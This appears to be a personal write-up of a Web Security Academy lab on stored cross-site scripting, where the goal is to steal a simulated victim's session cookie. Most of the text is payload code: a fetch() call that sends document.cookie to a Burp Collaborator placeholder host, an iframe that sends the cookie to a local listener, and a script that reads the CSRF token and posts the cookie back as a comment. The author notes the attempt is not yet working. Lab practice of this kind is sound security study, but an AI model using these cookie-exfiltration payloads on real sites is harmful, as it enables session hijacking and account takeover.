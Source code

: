 Title: Exploiting cross-site scripting to steal cookies
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});

<iframe width='1' height='1' src="javascript:var
url='http://0.0.0.0:9000?';url=url.concat(document.cookie);fetch(url);">
  
```
<script>
  var csrfToken = document.querySelector('input[name="csrf"]').value;
</script>
<form method="POST" action="https://0ab5000803d221408084030300750016.web-security-academy.net/post/comment">
    <input type="hidden" name="postId" value="4">
    <input type="hidden" name="comment" value="test">
    <input type="hidden" name="name" id="nameId">
    <input type="hidden" name="email" value="test@test.ts">
    <input type="hidden" name="website" value="https://sdkldl.com">
    <input type="hidden" name="csrf" id="csrfId">
</form>
<script>
  document.addEventListener('DOMContentLoaded', function() {
  var form = document.querySelector('section.add-comment form');
  var csrfToken = form.querySelector('input[name="csrf"]').value;
  console.log(csrfToken);
  //document.querySelector('#myForm input[name="csrf"]').value = csrfToken;
  var cookie = document.cookie;
  document.querySelector('#nameId').value = cookie;
  document.querySelector('#csrfId').value = csrfToken;
  document.forms[0].submit();
  });
</script>
```
  
To get the csrf :)))))
```
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var form = document.querySelector('section.add-comment form');
    var csrfToken = form.querySelector('input[name="csrf"]').value;
    console.log(csrfToken);
  });
</script>
```

<img width="757" height="482" alt="image" src="https://github.com/user-attachments/assets/86b65cfd-30d5-4f44-9cd7-964a82aac733" />

I have made proper code, which is working, but from some reason I can't get victim session cookie
